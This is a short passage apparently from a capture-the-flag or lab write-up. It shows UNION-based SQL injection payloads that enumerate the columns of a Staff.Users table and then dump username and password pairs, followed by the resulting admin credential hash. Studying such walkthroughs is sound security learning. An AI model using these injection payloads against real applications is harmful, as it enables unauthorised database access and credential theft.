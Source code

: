 Columns in table `Users` : `UserID,Username,Password`

```sql
' union all select 1,2,3,4,5.6,group_concat(column_name) FROM information_schema.columns WHERE table_schema = 'Staff' and table_name = 'Users'; -- -
```

![](/assets/obsidian/2b3082ce391ef68512284d2a11a08145.png)

Get username and password from table `Users`

```sql
' union all select 1,2,3,4,5.6,group_concat(username,":",password,"|") FROM Staff.Users; -- -
```

![](/assets/obsidian/63676eacb8e3b3bdb2e263fc8e06fd78.png)

```
admin:856f5de590ef37314e7c3bdf6f8a66dc|
```
